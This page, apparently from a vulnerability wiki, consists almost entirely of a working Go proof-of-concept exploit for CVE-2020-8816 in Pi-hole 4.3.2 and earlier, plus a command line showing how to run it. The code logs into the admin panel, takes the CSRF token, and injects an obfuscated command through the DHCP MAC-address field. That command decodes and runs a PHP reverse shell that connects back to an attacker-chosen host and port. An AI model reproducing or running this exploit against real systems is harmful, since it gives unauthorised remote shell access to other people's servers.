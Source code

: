 <languages /> <translate>

影響版本
--------

</translate> Pi-hole \<= 4.3.2

POC
---

    go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://target/admin/

    package main


    import (
       "flag"
       "log"
       "strings"
       "github.com/anaskhan96/soup"
       "encoding/hex"
       "github.com/levigross/grequests"
    )

    type Options struct {
       url, password, host, port string

    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
       payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
       payload = strings.Replace(payload, "HOST", HOST, 1)
       payload = strings.Replace(payload, "PORT", PORT, 1)
       return hex.EncodeToString([]byte(payload))
    }

    func extractFlags() *Options {
       urlPtr := flag.String("u", "http://10.0.0.1/admin/", "Set the Url of the admin panel")
       passPtr := flag.String("pass", "admin", "Admin Password")
       hostPtr := flag.String("host", "10.0.0.1", "Set the host for the reverse shell")
       portPtr := flag.String("p", "1337", "Set Port for the reverse shell")
       flag.Parse()

       return &Options{*urlPtr, *passPtr, *hostPtr,*portPtr}
    }

    func doLogin(ses *grequests.Session) *grequests.Session{
       log.Println("Logging In...")
       resp, err := ses.Post(URL+"index.php",&grequests.RequestOptions{Data: map[string]string{"pw": PASSWD}})
       if err != nil {
           log.Fatal("Error logging-in: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for log-in did not return OK")
       }
       log.Println("Logged In!")
       return ses
    }

    func getToken(ses *grequests.Session) string{
       resp, err:= ses.Get(URL+"index.php",nil)
           if err != nil {
           log.Fatal("Error getting token: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for getting token did not return OK")
       }
       html := soup.HTMLParse(resp.String())
       token := html.Find("div","id","token").Text()
       return token
    }

    func Exploit(ses *grequests.Session, token string, payload string) {
       full_payload := "aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN(\"" + payload + "\"));'&&"
       resp,err := ses.Post(URL + "settings.php", &grequests.RequestOptions{Data: map[string]string{
           "AddMAC":full_payload,
           "field":"DHCP",
           "AddIP":"10.10.10.10",
           "AddHostname":"10.10.10.10",
           "addstatic":"",
           "token":token}})
               if err != nil {
           log.Fatal("Error sending payload: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for sending payload did not return OK")
       }
    }


    func main(){
       options := extractFlags()
       HOST = options.host
       URL = options.url
       PORT = options.port
       PASSWD = options.password
       session := grequests.NewSession(nil)
       doLogin(session)
       log.Println("Getting Token...")
       token := getToken(session)
       log.Println("Token:",token)
       log.Println("Generating payload...")
       payload := generate_shell()
       log.Println("Payload generated:",payload)
       log.Println("Sending exploit...")
       Exploit(session, token, payload)
       log.Println("Exploit executed, check your session")
    }